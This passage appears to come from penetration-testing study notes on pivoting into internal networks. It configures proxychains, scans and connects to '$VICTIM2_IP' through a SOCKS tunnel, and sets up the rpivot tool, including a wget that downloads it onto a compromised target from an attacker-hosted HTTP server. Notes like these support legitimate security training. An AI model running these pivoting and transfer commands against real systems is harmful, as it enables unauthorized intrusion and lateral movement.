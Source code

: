 Once we have the tunnel established, we have modify our proxy file and add this port.

```bash
nano /etc/proxychains.conf

# add follow line in the bottom
socks4 127.0.0.1 8090
```

Now using `proxychains` we can access to all port of all other network machines.

```bash
# this command to create a port fordward which allow us to see a web page
proxychains nc -nv $VICTIM2_IP $PORT_TO_FORWARD_ON_VICTIM2

# use nmap through the pivoting
proxychains nmap -sT $VICTIM2_IP

# this command allow us to access via RDP to other machine in other network
proxychains rdesktop $VICTIM2_IP
```

***

## Pivoting with Rpivot

_RPIVOT allows to tunnel traffic into internal network via socks 4. It works like ssh dynamic port forwarding but in the opposite direction. Target machine as client and attack machine as server._

This tool is usefull when we have access to a machine through web rev shell but **we do not have the credentials** to make a SSH tunneling.

{% embed url="https://github.com/klsecservices/rpivot" %}

```bash
git clone https://github.com/klsecservices/rpivot
```

This tool works with Python2, to running it we can create a virtual env with conda

{% code overflow="wrap" %}
```bash
cd rpivot
conda create -n rpivot python=2.7

# Start the server on attacker machine
python2 server.py --server-port $SERVER_PORT --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port $PROXY_PORT # (ex SERVER_PORT = 9980 and PROXY_PORT 9050)
# server_port = expose port from receiving client connection
# proxy_port = port which will be use by proxychains
```
{% endcode %}

Now we have to transfer the rpivot .zip directory to target machine

```bash
# attack machine in the dir where there is rpivot.zip
python3 -m http.server 80

# target machine
wget http://$ATT_IP/rpivot.zip
```
